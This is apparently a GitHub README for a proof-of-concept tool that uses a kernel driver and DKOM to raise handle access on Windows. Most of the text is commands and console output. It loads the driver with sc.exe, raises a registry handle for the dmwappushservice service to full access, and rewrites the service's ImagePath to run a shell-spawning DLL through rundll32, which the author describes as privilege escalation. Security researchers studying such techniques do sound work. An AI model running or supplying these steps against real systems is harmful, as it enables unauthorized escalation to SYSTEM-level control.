

# ElevateHandle

PoCs to elevate handle access with DKOM method.

## Installation

```
PS C:\> sc.exe create ElevateHandle type= kernel binpath= C:\Dev\ElevateHandleDrv_x64.sys
PS C:\> sc.exe start ElevateHandle
```

## Client Program Usage

This technique requires a handle to the target object.
It is rare cases that low privileged process can get handles to high privileged process, so this client program performs service's binary path modification.

```
PS C:\Dev> .\ElevateHandleClient.exe -h

ElevateHandleClient - Client for ElevateHandleDrv.

Usage: ElevateHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -n, --name    : Specifies a service name to overwrite ImagePath value.
        -c, --command : Specifies a command to set ImagePath value.

[!] -n option is required.
```

For example, in Windows 10/11, we can start `dmwappushservice` service any users.
If attacers succeeds in tampering service registry key, it leads privilege escalation.
To test this situation, I put a [sample DLL to pop up shell in desktop session](./HijackShellLib/).
After `ImagePath` value modification, start the modified service as follows:

```
PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p

PS C:\Dev> C:\Dev\ElevateHandleClient.exe -n dmwappushservice -c "C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry"

[+] Got a service key handle.
    [*] Registry Key Path : \REGISTRY\MACHINE\SYSTEM\CurrentControlSet\Services\dmwappushservice
    [*] Granted Access    : KEY_QUERY_VALUE
[*] Current ImagePath is "%SystemRoot%\system32\svchost.exe -k netsvcs -p".
[+] Got a handle to \??\ElevateHandle (Handle = 0x28C).
[>] Sending a query to \??\ElevateHandle.
[+] Granted Access is elevated to KEY_ALL_ACCESS.
[+] ImagePath value is overwritten successfully.
[*] Done.

PS C:\Dev> sc.exe qc dmwappushservice | findstr /i path
        BINARY_PATH_NAME   : C:\Windows\System32\rundll32.exe C:\Dev\HijackShellLib_x64.dll FakeEntry

PS C:\Dev> sc.exe start dmwappushservice
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

PS C:\Dev>
```


